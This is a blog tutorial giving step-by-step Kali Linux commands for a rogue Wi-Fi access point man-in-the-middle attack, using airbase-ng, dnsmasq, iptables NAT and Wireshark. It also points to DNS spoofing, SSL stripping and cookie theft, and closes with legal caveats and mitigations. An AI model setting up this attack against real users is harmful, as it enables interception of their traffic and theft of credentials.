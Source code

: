 # Executing Man-in-the-Middle Attacks with Rogue Access Points

Man-in-the-Middle (MITM) attacks are a significant threat in wireless networks, allowing attackers to intercept and manipulate communication between clients and access points (APs). One potent method involves creating a rogue access point, a malicious Wi-Fi network designed to lure unsuspecting users. In this blog, I'll provide a detailed, practical guide to understanding and executing a rogue AP-based MITM attack, aimed at both beginners and advanced security enthusiasts. We'll focus on using Kali Linux and tools like `airbase-ng` to demonstrate the attack, while emphasizing legal boundaries.

**Disclaimer:** This guide is for educational purposes only. Performing MITM attacks on networks or devices without explicit permission is illegal. Always conduct security research in controlled, authorized environments.

## What is a Rogue Access Point MITM Attack?

A rogue access point is a malicious Wi-Fi network set up by an attacker to mimic a legitimate AP. By enticing users to connect, the attacker can intercept traffic, modify data, or launch further attacks like phishing or session hijacking. This technique is particularly effective in public Wi-Fi environments, where users may not verify the authenticity of networks.

MITM attacks via rogue APs exploit the trust users place in Wi-Fi networks. Other related techniques include ARP spoofing, Evil Twin attacks, Wi-Fi Pineapple, and DNS spoofing, each with unique mechanisms for intercepting traffic. This blog focuses on the rogue AP method, as it's accessible yet powerful for demonstrating MITM concepts.

## Prerequisites

To follow this guide, you'll need:

- A Kali Linux machine (physical or virtual).
- An external Wi-Fi adapter that supports monitor mode.
- Basic familiarity with Linux terminal commands.
- Tools from the Aircrack-ng suite (`airbase-ng`, `airodump-ng`, etc.).
- A controlled lab environment with explicit permission to test.

## Creating a Rogue AP for MITM

### 1. Set Up Your Wi-Fi Adapter in Monitor Mode

To capture and manipulate wireless traffic, your Wi-Fi adapter must be in _monitor_ mode, which allows it to listen to all wireless packets, not just those destined for your device.

Connect your external Wi-Fi adapter to your Kali Linux machine.
Verify the adapter is recognized:iwconfig

Look for your adapter's interface name (e.g., wlan0).
Enable monitor mode:sudo airmon-ng start wlan0

This creates a new interface (e.g., wlan0mon). Confirm with iwconfig.

Step 2: Create the Rogue Access Point
Using airbase-ng from the Aircrack-ng suite, we'll create a rogue AP with a customized SSID to mimic a legitimate network.

Launch the rogue AP:
sudo airbase-ng -e "FreeWiFi" -c 6 -P wlan0mon


-e "FreeWiFi": Sets the SSID to “FreeWiFi” (choose a name that blends with the environment).
-c 6: Specifies the channel (e.g., channel 6; match the target AP's channel for realism).
-P: Enables the AP to respond to all probe requests, increasing the likelihood of client connections.
wlan0mon: The monitor-mode interface.

This command creates a virtual AP interface (e.g., at0).

Monitor the AP activity in the terminal. You'll see clients attempting to connect, as shown in Figure 7.26 (conceptual representation of the rogue AP setup).


Step 3: Configure Network Routing
To intercept traffic, you need to route client traffic through your Kali machine.

Enable IP forwarding:
sudo sysctl -w net.ipv4.ip_forward=1


Set up the virtual AP interface (at0) with an IP address:
sudo ifconfig at0 up 192.168.1.1 netmask 255.255.255.0


Configure a DHCP server to assign IP addresses to connecting clients. Install and configure dnsmasq:
sudo apt-get install dnsmasq

Create a configuration file (/etc/dnsmasq.conf):
interface=at0
dhcp-range=192.168.1.2,192.168.1.100,12h

Start dnsmasq:
sudo dnsmasq -C /etc/dnsmasq.conf


Set up NAT to allow clients internet access (optional, to make the rogue AP convincing):
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE



Step 4: Intercept and Analyze Traffic
Once clients connect to your rogue AP (as depicted in Figure 7.27), their traffic routes through your Kali machine. Use tools like Wireshark or tcpdump to capture and analyze packets.

Start Wireshark:
sudo wireshark &

Select the at0 interface and filter for protocols like HTTP, DNS, or TLS to inspect traffic.

For advanced attacks, you can:

DNS Spoofing: Redirect clients to malicious sites by altering DNS responses (use tools like dnsspoof).
SSL Stripping: Downgrade HTTPS connections to HTTP (use sslstrip).
Session Hijacking: Steal cookies or tokens using tools like ettercap.



Step 5: Clean Up
After testing, dismantle the rogue AP and restore your system:

Stop airbase-ng (Ctrl+C in the terminal).
Disable monitor mode:sudo airmon-ng stop wlan0mon


Stop dnsmasq and reset IP forwarding:sudo killall dnsmasq
sudo sysctl -w net.ipv4.ip_forward=0



Ethical and Legal Considerations

Permission is Mandatory: Conducting MITM attacks without explicit consent is illegal under laws like the U.S. Computer Fraud and Abuse Act or the UK Computer Misuse Act.
Controlled Environment: Test only in lab settings or on networks you own or have permission to analyze.
Responsible Disclosure: If you identify vulnerabilities during authorized testing, report them to the network owner following responsible disclosure practices.

Advanced Techniques and Mitigations
Related MITM Techniques

Evil Twin Attack: A variant where the rogue AP mimics a specific legitimate AP, often combined with de-authentication attacks to force clients to connect.
Wi-Fi Pineapple: A hardware device that automates rogue AP and MITM attacks.
ARP Spoofing: Manipulates ARP tables to intercept traffic on wired or wireless networks.
DNS Spoofing: Redirects DNS queries to malicious servers.

Mitigations
To protect against rogue AP attacks:

Use VPNs: Encrypt traffic to prevent interception.
Verify SSIDs: Avoid connecting to unverified or suspiciously named networks.
Enable WPA3: Modern encryption protocols make rogue APs harder to exploit.
Monitor Network Activity: Use intrusion detection systems to spot unauthorized APs.

Conclusion
Rogue access point-based MITM attacks are a powerful demonstration of wireless network vulnerabilities. By setting up a rogue AP with tools like airbase-ng, security researchers can study how attackers intercept and manipulate traffic. However, this knowledge must be used responsibly, within legal and ethical boundaries. For beginners, mastering these steps builds a foundation in wireless security testing, while advanced users can explore related techniques like DNS spoofing or session hijacking to deepen their expertise.
Stay curious, stay ethical, and keep securing the digital world.
